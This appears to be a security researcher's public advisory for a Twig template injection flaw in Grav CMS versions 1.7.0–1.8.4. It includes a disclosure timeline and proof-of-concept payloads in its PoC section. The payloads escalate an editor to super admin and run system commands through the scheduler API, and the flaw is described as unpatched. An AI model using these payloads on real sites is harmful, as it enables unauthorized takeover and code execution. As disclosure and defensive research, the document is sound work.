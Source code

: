 ```yaml
---
title: Grav CMS vulnerability
description: >-
  A zero day vulnerability in content management system.
date: 2025-07-27 09:00:00
categories: [Vulnerability Reports, Grav CMS ]
tags: [grav cms, ssti,twig injection, rce, cve, bug, open-source, web security ]
author: p1r0x 
---
```


> **CVE‑ID:** CVE‑TBD  
> **Published:** 2025-07-27  
> **Reported:** 2025-04-18  
> **Last Updated:** 2025-07-27  
> **Severity:** CVSS v3.0 Base Score: 8.8 (vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
> **Affected Versions:** From `1.7.0` through `1.7.48` and all prereleases `1.8.1 - 1.8.4`  
> **Fixed Version:** `None`  


---


## 1. Executive Summary

A user with admin panel access and permissions to create or edit pages in Grav CMS can enable Twig processing in the page frontmatter or settings. By injecting malicious Twig expressions, the user can escalate their privileges to (super) admin or execute arbitrary system commands via the scheduler API. This results in both Privilege Escalation (PE) and Remote Code Execution (RCE) vulnerabilities.

---

## 2. Timeline

| Date       | Event                                                         | Days since initial report|
| ---------- | ------------------------------------------------------------- |--------------------------|
| 2025‑04‑18 | Initial disclosure sent via email to maintainers.             |0                         |
| 2025‑04‑21 | Added to upstream Security Advisory board.                    |3                         |
| 2025‑06‑03 | First follow‑up emailed—no reply.                             |46                        |
| 2025‑06‑20 | Comment posted on advisory—no reply.                          |63                        |
| 2025‑07‑19 | Last‑call email sent (1 week deadline).                       |92                        |
| 2025‑07‑27 | Public disclosure.                                            |100                       |

---

## 3. Details & Proof-of-Concept

### 3.1 Details

Grav CMS allows Twig to be executed in page templates if enabled in admin panel (process: twig: true).
A user with publisher/editor privileges, that can create or edit pages and enable twig processing, can thereby inject arbitrary code that will execute in the context of the page render.

This enables exploitation of Grav internal APIs such as:
- `grav.user.update()` and `grav.user.save()` for escalating the current user to super admin or admin
- `grav.scheduler.addCommand()`, `grav.scheduler.save()` and `grav.scheduler.run()` for code execution

The Twig sandbox is not enforced in this context, allowing full access to any backend PHP object and method in the `system/src/Grav/Common` directory.

### 3.2 PoC

> Preconditions:
> - You must have access to at least **editor level** user with permission to create/edit pages (```admin.pages``` access)
> - For Privilege Escalation, you also have to be logged in to the site with the same user as the admin panel.
{: .prompt-info }

#### Steps to reproduce Privilege Escalation:
1. Login into the non-admin page (default at `cms-url/login`).
2. Login to the admin panel, create or edit a page and set the Twig processing to true (Advanced -> Process: Twig: true).
3. Inject the following payload into the page content to escalate privileges:

    {% raw %}
    ```text
    {% set _ = grav.user.update({
        'access': {
            'admin': {
                'login': true,
                'super': true
            }
        }
    }, {}) %}
    {% set _ = grav.user.save() %}
    ```
    {% endraw %}

4. Visit the edited/created page url. The logged in user is now admin. (*Note: For the changes to show, you need to log out of the admin panel and relogin).*

#### Steps to reproduce Remote Code Execution:
1. Login to the admin panel, create or edit a page and set the Twig processing to true (Advanced -> Process: Twig: true).
2. Inject the following payload into the page content to execute commands:

    {% raw %}
    ```text
    {% set _ = grav.scheduler.addCommand('curl', ['http://localhost:8000']) %}
    {% set _ = grav.scheduler.save() %}
    {% set _ = grav.scheduler.run() %}
    ```
    {% endraw %}

3. Visit the page to trigger the execution. The system will issue a `curl` request.

---

## 4. Impact

**Scope:** Remote Code Execution as any authenticated user.  
**Impact:** Full system compromise, data exfiltration, pivot to internal networks.  
**CVSS v3.1 Vector:** CVSS v3.0 vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H  

---

## 5. Mitigation & Patch

Currently, there is no official patch for this exploit.  
I recommend globally turning off twig processing as a temporary fix.

---

## 6. Disclosure & Credits

Discovered and reported by [p1r0x](https://x.com/p1r0xSec){:target="_blank"}.
